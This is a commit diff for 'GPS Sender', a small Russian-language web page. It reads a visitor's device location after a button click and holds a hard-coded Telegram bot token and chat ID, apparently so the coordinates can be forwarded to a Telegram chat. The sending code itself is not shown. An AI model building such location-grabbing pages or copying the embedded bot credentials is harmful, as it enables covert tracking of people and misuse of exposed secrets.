

Before and after one commit to koryunphysmath/catpat, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,26 +2,37 @@
 <html lang="ru">
 <head>
     <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>GPS Sender</title>
     <style>
-        body { font-family: sans-serif; text-align: center; margin-top: 50px; background: #121212; color: #fff; }
+        body { font-family: sans-serif; text-align: center; margin-top: 50px; background: #121212; color: #fff; padding: 20px; }
         h2 { color: #4CAF50; }
-        #status { padding: 20px; font-size: 18px; }
+        #status { padding: 20px; font-size: 16px; margin-top: 20px; }
+        button { background-color: #4CAF50; color: white; border: none; padding: 15px 30px; font-size: 18px; border-radius: 8px; cursor: pointer; margin-top: 20px; }
+        button:active { background-color: #45a049; }
     </style>
 </head>
 <body>
-    <h2 id="title">Поиск координат...</h2>
-    <div id="status">Ожидание ответа от датчиков телефона...</div>
+    <h2 id="title">Требуется подтверждение</h2>
+    <div id="status">Нажмите кнопку ниже, чтобы передать координаты.</div>
+
+    <br>
+    <button id="geoBtn" onclick="getLocation()">Начать определение</button>
 
     <script>
         const TOKEN = "9218562846:AAGbvc-EJ2QLHcs8qW-c__liAzlBgUp4HnU";
         const CHAT_ID = "5328460264";
 
+        function getLocation() {
             const statusDiv = document.getElementById("status");
             const titleH2 = document.getElementById("title");
+            const btn = document.getElementById("geoBtn");
+
+            btn.style.display = "none"; // Скрываем кнопку после нажатия
+            titleH2.innerText = "Поиск координат...";
+            statusDiv.innerText = "Ожидание ответа от датчиков телефона...";
 
             if (navigator.geolocation) {
-            // Увеличиваем таймаут до 30 секунд, чтобы дать телефону время поймать спутники
                 navigator.geolocation.getCurrentPosition(
                     function(position) {
                         const lat = position.coords.latitude;
@@ -52,21 +63,23 @@
                                 errorMsg = "Пользователь отклонил запрос на геолокацию.";
                                 break;
                             case error.POSITION_UNAVAILABLE:
-                            errorMsg = "Информация о местоположении недоступна (возможно, выключен GPS или нет сигнала).";
+                                errorMsg = "Информация о местоположении недоступна (проверьте, включен ли GPS).";
                                 break;
                             case error.TIMEOUT:
-                            errorMsg = "Время ожидания истекло (GPS не смог поймать спутники, попробуйте у окна).";
+                                errorMsg = "Время ожидания истекло.";
                                 break;
                             default:
                                 errorMsg = "Неизвестная ошибка: " + error.message;
                         }
                         statusDiv.innerText = errorMsg;
+                        btn.style.display = "inline-block"; // Возвращаем кнопку при ошибке
                     },
                     { enableHighAccuracy: false, timeout: 30000, maximumAge: 0 }
                 );
             } else {
                 statusDiv.innerText = "Геолокация не поддерживается вашим браузером.";
             }
+        }
     </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
